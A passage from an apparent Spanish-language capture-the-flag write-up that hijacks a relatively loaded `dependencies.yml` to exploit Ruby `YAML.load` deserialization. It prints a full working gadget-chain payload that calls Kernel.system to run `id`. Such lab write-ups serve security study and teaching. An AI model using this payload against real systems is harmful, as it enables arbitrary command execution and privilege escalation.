Al buscar en Google el método `YAML.load` el cual me llamó la atención...
![Write-up Image](images/Screenshot_5.png)

Me llamó la atención ya que este archivo se carga de forma relativa, por lo cual podríamos secuestrar el archivo `dependencies.yml` y conseguir la deserialización.

Vamos a usar [este](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) PoC.

Nos creamos un archivo `dependencies.yml`
```yml
henry@precious:/tmp$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
